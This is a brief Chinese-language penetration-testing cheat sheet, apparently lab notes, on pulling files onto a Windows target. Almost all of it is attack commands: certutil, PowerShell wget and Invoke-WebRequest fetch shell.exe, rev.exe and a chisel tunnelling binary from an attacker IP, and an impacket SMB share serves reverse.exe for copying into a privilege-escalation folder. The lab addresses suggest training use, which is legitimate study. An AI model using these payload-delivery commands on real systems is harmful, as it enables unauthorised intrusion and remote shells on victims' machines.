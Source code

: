 # windows下载

最常用也好用 **certutil.exe -urlcache -split -f http://10.10.16.3/shell.exe C:\Windows\Temp\shell.exe**

**或者curl**

smb，python,ftp这几种方法都比较好用

```python
-------------------------------------------
在 Kali 上
smbserver.py s . -smb2support -username df -password df
在靶场同时开启共享
net use \\192.168.119.175\s /u:df df
copy \\10.10.10.10\s\reverse.exe C:\PrivEsc\reverse.exe
--------------------------------------------
或者
powershell -c "wget 10.10.14.6/chisel_windows_amd64.exe -o c.exe"
或者
Invoke-WebRequest "http://10.10.14.12/rev.exe" -OutFile "rev.exe"
```
